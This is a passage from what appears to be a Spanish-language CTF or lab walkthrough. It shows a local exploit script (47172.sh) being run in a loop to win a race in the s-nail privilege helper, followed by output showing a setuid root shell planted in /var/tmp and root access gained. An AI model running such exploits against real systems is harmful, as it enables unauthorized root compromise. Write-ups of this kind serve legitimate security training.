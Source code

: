 ```sh
chad@gigachad:/tmp$ while true; do ./47172.sh; done
```

Tras un rato de espera conseguimos la `shell` como `root`:

```sh
[.] Race #974 of 1000 ...
This is a helper program of "s-nail" (in /usr/bin).
  It is capable of gaining more privileges than "s-nail"
  and will be used to create lock files.
  It's sole purpose is outsourcing of high privileges into
  fewest lines of code in order to reduce attack surface.
  It cannot be run by itself.
[.] Race #975 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 May 22 07:13 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# whoami
root
#
```

¡Enhorabuena! Hemos conseguido el **control total** de la máquina. ¡Qué fácil!